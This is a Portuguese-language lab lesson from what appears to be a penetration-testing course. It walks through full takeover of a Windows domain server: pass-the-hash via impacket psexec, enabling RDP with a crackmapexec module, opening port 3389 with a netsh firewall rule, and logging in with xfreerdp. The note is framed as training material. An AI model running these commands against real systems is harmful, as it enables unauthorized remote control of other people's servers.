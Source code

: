 <h1 align="center"> Conclusao - Acesso completo ao Servidor</h1>
<hr>

Agora a gente vai obter acesso completo ao servidor , vamos melhorar o nosso ataque.

Na aula passada obtemos todos os hashes dos usuarios do AD inclusive do administrador.

Vamos suport que a gente nao conseguiu quebrar ou descobrir a senha do administrador mas temos o hash dele, entao vamos usar a tecnica de [[Pass the Hash]] nesse servidor.

Ainda podemos continuar usando o psexec e faremos o seguinte:

```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrador@<IP DO SERVIDOR> -hashes 'hashdoservidor'
```

Outra coisa legal , vamos escanear o servidor denovo e ir para a porta 3389 

```sh
nmap --open -p 3389 -sS -Pn 172.16.1.243
```

Podemos usar o acesso admin para alterar o registro ou via linha de comando mesmo habilitar o RDP ou usar ate o proprio modulo do <span style='color:var(--mk-color-red)'>crackmapexec</span> .

O crackmapexec tem varios modulos se usarmos a opcao `crackmapexec -L` podemos ver quais sao.

Um deles eh o <span style='color:var(--mk-color-teal)'>RDP</span> . Vamos usa-lo

```sh
crackmapexec smb <IP DO SERVIDOR> -u egabriel -p 'senhagabriel' -M rdp -o ACTION=enable
```

Ao fazer isso ele vai habilitar o rdp no servidor .

Verificamos novamente a porta 3389 (RDP) no servidor com nmap

```sh
nmap -p 3389 -sS -Pn <IP SERVER>
```

Se estiver filtrada ainda , nao conseguiremos acessar ele ainda , porque ? Porque ha bloqueio de firewall ainda. se usarmos o netstat para vermos se esta em execucao vemos que ela nao esta liberada .

Entao podemos usar o comando com acesso administrativo:

```sh
netsh advfirewall add rule name="rpd" protocol=TCP dir=in localport=3389 action=allow
```

Entao estamos fazendo uma acao no firewall via linha de comando para permitir o acesso a porta <span style='color:var(--mk-color-purple)'>3389</span>.

Perfeito , escaneamos denovo.

```sh
nmap -p 3389 -sS -Pn <IP SERVER>
```

E podemos usar o xfreerdp para tentarmos conectar ao servidor remotamente

```sh
xfreerdp /u:egrbriel /v:<IP DO SERVIDOR> /p:senha
```

E temos acesso remotamente a tudo basicamente.
